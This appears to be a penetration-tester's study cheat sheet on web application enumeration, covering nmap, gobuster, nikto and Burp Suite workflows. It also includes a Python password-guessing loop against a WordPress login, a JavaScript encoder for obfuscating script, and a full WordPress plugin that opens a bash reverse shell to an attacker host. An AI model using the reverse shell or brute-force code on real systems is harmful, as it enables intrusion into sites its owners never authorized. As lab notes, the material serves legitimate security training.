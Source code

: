 # WebApps enum

OWASP top ten: https://owasp.org/www-project-top-ten/

## Nmap

```
sudo nmap -p80 -sV $IP
sudo nmap -p80 --script=http-enum $IP
```

## Wappalyzer

Technology stack: https://www.wappalyzer.com/

## Sitemaps

```
http://ip/robots.txt
http://ip/sitemap.xml
```

## Dirb

```
dirb http://$IP
```

## Gobuster 

### Directory brute force

Documentation on Kali: https://www.kali.org/tools/gobuster/
S1ren: https://sirensecurity.io/blog/common/
```
gobuster dir -u $IP -w /path/to/wordlist.txt
```
Kali wordlists: `/usr/share/wordlists/dirb/*.txt`
Daniel Miessler wordlists: https://github.com/danielmiessler/SecLists

Directory enumeration:
```
vi /etc/hosts
    a.b.c.d some.url.com
URL=http://some.url.com
gobuster dir -u $URL -w ~/github/SecLists/Discovery/Web-Content/raft-large-directories.txt
```
and find subdirectories. Other options: `-b some_http_code` to ignore error codes

With subdirectories, files enumeration: `URL=a.b.c.d:p`
```
gobuster dir -u http://$URL/some_nice_dir/ -w /usr/share/wordlists/dirb/common.txt -o myresultfile.txt -x txt,pdf,config
```

### Enumerating APIs

Make a pattern file `pattern.txt`:
```
{GOBUSTER}/v1
{GOBUSTER}/v1
```
then fuzz the placeholder with a wordlist:
```
gobuster dir -u http://ip:port -w /usr/share/wordlists/dirb/big.txt -p pattern.txt
```
Curl with headers: `curl -i`

Post json data:
```
curl -d '{"username":"someuser","password":"somepass"}' -H 'Content-Type: application/json' http://$IP/path/to/login/page.html
```

## Nikto

Many false positives:
```
nikto -host $IP -port $Port
```

## Feroxbuster

```
feroxbuster --url http://$IpTarget
```

## Burp Suite

Proxy > Proxy Settings > Proxy Listeners\
Firefox > Connection Settings > Configure Proxy > Manual > 127.0.0.1\
Proxy > HTTP history > right-click "Send to repeater"\
Repeater > Send\
`cat /etc/hosts # add the website`\
Proxy > HTTP history > right-click "Send to intruder"\
Intruder > Clear/Add > Payload > Paste > paste a wordlist > check the return code

## Python manual password attack

Using the `requests` module: https://requests.readthedocs.io/en/latest/api
```
import requests
for i in ['test', 'pass', 'password']:
    r = requests.post('http://offsecwp/wp-login.php', data={'login_field': 'user_to_hack', 'password_field': i})
    print(r.status_code, len(r.content))
```

## Javascript

Shortcuts:
- console: `^C+^S+k`
- devtools: `^C+^S+i`

```
function myFunc(a,b){
  return a+b
  }
let c = myFunc(n1,n2)

function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

Minified Javascript: https://jscompress.com/

## WordPress reverse shell plugin

https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell

Php file:
```
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/$AttackerIp/$AttackerPort 0>&1'");
?>
```
then zip it: `zip revsh-wp-plugin.zip revsh-wp-plugin.php` \
and upload it on WordPress.
